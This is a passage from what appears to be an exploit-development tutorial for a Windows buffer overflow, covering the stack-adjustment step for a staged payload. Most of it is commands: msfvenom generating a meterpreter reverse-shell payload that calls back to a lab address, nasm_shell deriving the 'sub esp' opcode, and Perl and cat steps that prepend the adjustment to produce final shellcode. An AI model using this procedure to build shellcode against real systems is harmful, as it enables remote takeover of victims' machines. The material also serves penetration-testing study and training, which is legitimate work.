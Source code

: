 


-Now we’ve got the known information we need to take the next step and factor in the stack adjustment for our staged payload.


-Stack Adjustment

-First we need to dump our payload into a raw hex file for further manipulation. Our payload, in this case, is going to be the meterpreter shell windows/meterpreter/reverse_nonx_tcp, chosen for it’s particularly small code footprint. 

-We use the command,

./msfvenom -p windows/meterpreter/reverse_nonx_tcp LHOST=192.168.153.164 LPORT=4443 -a Windows -a x86 -o payload



-If we wish to confirm this has successfully outputted to the file we can use the command

#hexdump -C payload


-This will also come in handy when comparing the file against the post stack adjustment version. Next we need to find out what command we actually need to use to adjust the stack -3500 bytes.
This can be done using the Metasploit tool nasm_shell.rb, located here

/usr/share/metasploit-framework/tools/nasm_shell.rb.

-Putting in an assembly command will give you the hex machine instruction for that command. Since we want to subtract 3500 (0xDAC in hex) from the stack pointer we do the following,
Install nasm before proceeding to the next command

#sudo apt-get install nasm
#ruby /home/strategicsec/toolz/metasploit/tools/nasm_shell.rb
nasm > sub esp, 0xDAC
00000000  81ECAC0D0000  	sub esp,0xdac



-This tells us we need to use the commands 81EC AC0D 0000 to achieve adjusting the stack by 3500. We output this into a raw hex file. You can do it however you wish, such as with a hex editor, but a quick one line example with Perl is as follows,

#perl -e 'print "\x81\xec\xac\x0d\x00\x00"' > stackadj

-We now have two raw files - stackadj and our payload. We want to combine them both together which is a simple cat command,

#cat stackadj payload > shellcode

-To confirm we now have the file in a correct format we once more examine it with hexdump and compare it against our previous dump.

# hexdump -C shellcode



-It’s exactly the same as our past payload but with the stack adjustment having taken place at the start of the exploit. We’re almost done now, but we have one final step we need to do to the shellcode.

